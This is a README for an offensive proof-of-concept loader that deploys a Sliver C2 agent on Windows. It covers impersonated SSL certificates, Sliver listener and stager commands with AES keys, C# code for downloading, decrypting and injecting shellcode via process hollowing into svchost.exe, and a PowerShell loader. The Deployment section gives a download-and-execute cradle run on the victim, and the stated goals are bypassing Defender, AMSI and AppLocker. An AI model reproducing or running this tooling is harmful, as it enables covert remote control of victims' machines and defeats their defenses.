




# SliverLoader

This proof of concept (PoC) utilizes a DLL and a PowerShell loader to deploy a Sliver Agent, incorporating AMSI bypass, process injection, hollowing, and operational security (OpSec) through an impersonated SSL certificate. The shellcode runner is implemented in C# using the .NET Framework 4.0, which is typically pre-installed on Windows 10 and newer systems, and is also available on many updated legacy systems. Execution is facilitated via PowerShell. The PoC aims to bypass defenses including Windows Defender, AMSI, PowerShell Constrained Language Mode, and AppLocker. Additionally, the runner employs HTTPS protocol utilizing custom SSL certificates and keys for staging, and employs AES encryption to further obfuscate the shellcode, enhancing security layers.

## SSL Certificate

To encrypt the traffic, a self-signed certificate is used, which fetches information from a specified URL to make the certificate appear more legitimate. There is a module created by Chris John Riley called **impersonate_ssl** that generates a certificate based on the information it gathers from the certificate of a website specified in the module's RHOST parameter.
```text
msf6 > use auxiliary/gather/impersonate_ssl
msf6 auxiliary(gather/impersonate_ssl) > set RHOST www.google.com
RHOST => www.google.com
msf6 auxiliary(gather/impersonate_ssl) > run
```


For further handling, the certificate is copied to `/tmp/certs/` as `crt.crt`, `pem.pem` and `key.key`.

## Sliver C2 Setup

The chosen Command and Control (C2) framework is [Sliver](https://github.com/BishopFox/sliver) developed by BishopFox, although the concept is adaptable to other frameworks such as Metasploit or Havoc. Follow the installation instructions provided on the [Getting Started](https://sliver.sh/docs?name=Getting+Started) page of Sliver's wiki to set it up.

The next steps involve setting up the necessary profile, listener, and stage-listener. It is noted that the IP addresses and paths to assets, such as certificates, need to be adjusted to fit the specific environment.

1. Create a reusable profile for the scenario
```text
sliver > profiles new -b https://192.168.8.205:443 --skip-symbols --format shellcode --arch amd64 monkeybox
```
2. Start the listener with the same port as specified in the profile and the certificate and key generated from metasploit
```text
https -L 192.168.8.205 -l 443 -c /tmp/certs/crt.crt -k /tmp/certs/key.key
```
3. Start the stageing server on port 8443 with the HTTPS protocol and the generated certificates. Additional, the the compression algorithm in addition to the AES Encryption Keys has to be passed to the command.
```text
sliver > stage-listener --url https://192.168.8.205:8443 --profile monkeybox -c ~/Code/certs/crt.crt -k ~/Code/certs/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
4. To confirm that our listeners are running , run the jobs command
```text
sliver > jobs
```


## Shellcode Runner

The features intended for inclusion in this shellcode runner are support for various staging scenarios offered by the Sliver C2 (such as raw shellcode, compression, AES encryption, and combinations thereof), process hollowing, AMSI bypass, in-memory execution to avoid touching the disk whenever possible, and flexibility in passing arguments without hard-coded parameters, allowing arguments to be passed on the fly. Different approaches could be taken to achieve these goals. The chosen approach involves writing a C# DLL assembly containing all the necessary methods, embedding it in the PowerShell script as a base64 string, decoding the assembly and loading it into the process using reflection, and then specifying the arguments and executing the methods.

### Download the Shellcode

One of the main problems encountered early on was that the default .NET WebClient object times out the connection after 60 seconds, and this attribute cannot be easily changed. The solution is to implement a slightly modified version of the WebClient object, allowing the default timeout to be overridden with a custom value. The implementation of this in C# is as follows:

```csharp
 public class WebClientWithTimeout : WebClient
{
    protected override WebRequest GetWebRequest(Uri address)
    {
        WebRequest wr = base.GetWebRequest(address);
        wr.Timeout = 50000000; // timeout in milliseconds (ms)
        return wr;
    }
}
```

Since a custom SSL certificate is being used, it is necessary to instruct the WebClient to ignore SSL certificate validation. This can be achieved by using a certificate validation handler that always returns true, as shown below:

```csharp
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
```

### Shellcode decryption

On the Stagers wiki page, the Sliver C2 team provides a template for a C# shellcode runner that includes an implementation of AES decryption. The decryption method they provide can be used as follows:
```csharp
public static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
{
    byte[] key = Encoding.UTF8.GetBytes(AESKey);
    byte[] IV = Encoding.UTF8.GetBytes(AESIV);

    using (Aes aesAlg = Aes.Create())
    {
        aesAlg.Key = key;
        aesAlg.IV = IV;
        aesAlg.Padding = PaddingMode.None;

        ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

        using (MemoryStream memoryStream = new MemoryStream(ciphertext))
        {
            using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
            {
                cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                return memoryStream.ToArray();
            }
        }
    }
}
```
### Shellcode decompression

Sliver C2 supports Gzip, Deflate, and Zlib compression algorithms. Zlib was not implemented because it is only supported on .NET Framework version 7.0 and above, which does not fit our use case. Therefore, the decompression algorithm parameter will be set to Gzip or Deflate. Any other value will be treated as "no decompression needed":

```csharp
public static byte[] Decompress(byte[] data, string CompressionAlgorithm)
{
    byte[] decompressedArray = null;
    if (CompressionAlgorithm == "deflate9")
    {
        using (MemoryStream decompressedStream = new MemoryStream())
        {
            using (MemoryStream compressStream = new MemoryStream(data))
            {
                using (DeflateStream deflateStream = new DeflateStream(compressStream, CompressionMode.Decompress))
                {
                    deflateStream.CopyTo(decompressedStream);
                }
            }
            decompressedArray = decompressedStream.ToArray();
        }
        return decompressedArray;
    }
    else if (CompressionAlgorithm == "gzip")
    {
        using (MemoryStream decompressedStream = new MemoryStream())
        {
            using (MemoryStream compressStream = new MemoryStream(data))
            {
                using (GZipStream gzipStream = new GZipStream(compressStream, CompressionMode.Decompress))
                {
                    gzipStream.CopyTo(decompressedStream);
                }
            }
            decompressedArray = decompressedStream.ToArray();
        }
        return decompressedArray;
    }
    else
    {
        return data;
    }
}
```

### Process Hollowing

Process hollowing is accomplished by injecting shellcode into a process that ideally also generates network traffic to remain more covert. The implementation follows a basic pattern using Win32 APIs such as CreateProcessA, VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread to inject the code into processes like svchost.exe.

Conditional operations were added to separate different workflows and to allow passing parameters to various methods. The final source code is implemented in the file [Loader.cs](https://github.com/Cyb3rDudu/SliverLoader/blob/main/SliverLoader/Loader.cs).

## Powershell Loader

The loader is a PowerShell script hosted on a web server, intended to be downloaded and executed once the attacker gains code execution. The script then loads the stager into memory via reflection and performs the download and execution of the agent from the staging server. 

To create the loader, the following steps are neccesarry:

First, the raw bytes of the assembly will need to be copied. For this, a PowerShell command will be used, which will copy the data to the clipboard.

```powershell
get-content -encoding byte -path .\sliverloader.dll | clip
```

Next use [CyberChef](https://cyberchef.io) to convert the data to base64. Convert "From Decimal" with delimiter Line feed "To Base64"



As powershell doesn't support **Raw Byte Encoding** which **Sliver C2** expects for **AES Encryption** and hardcoded keys in the assembly are not an option, they keys have to be converted with external tools like Cyberchef again.



Finally coppy the converted values to the script as in [loader.ps1](https://github.com/Cyb3rDudu/SliverLoader/blob/main/loader.ps1).

```powershell
$encodeStr = "TVqQAAMAAAAEAAAA..."

$decodeStr = [System.Convert]::FromBase64String($encodeStr)
[System.Reflection.Assembly]::Load($decodeStr)
$url = "https://192.168.X.X:8443/test.woff"
$TargetBinary = "svchost.exe"
[byte[]]$AESKey = 0x44,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56,0x6d,0x59,0x71,0x33,0x74,0x36,0x76,0x39,0x79,0x24,0x42,0x26,0x45,0x29,0x48,0x40,0x4d,0x63,0x51,0x66,0x54
[byte[]]$AESIV = 0x38,0x79,0x2f,0x42,0x3f,0x45,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56

$CompressionAlgorithm = "deflate9"
[Sl1verLoader.Program]::DownloadAndExecute($url,$TargetBinary,$CompressionAlgorithm,$AESKey,$AESIV)
```
## Deployment

The powershell loader is hosted on a webserver as `.txt` file e.g. `unsuspicious.txt`.
On the victim, the following command executes the download and staging of the agent which will result in an incoming session in sliver.
```Powershell
(New-Object System.Net.WebClient).DownloadString('https://some-server/unsuspicious.txt') | IEX)
```


## AV Evasion

The stager implements basic av evasion like process sleep, and check for api's that av engines usally don't implement.

## AMSI Bypass

## Applocker Bypass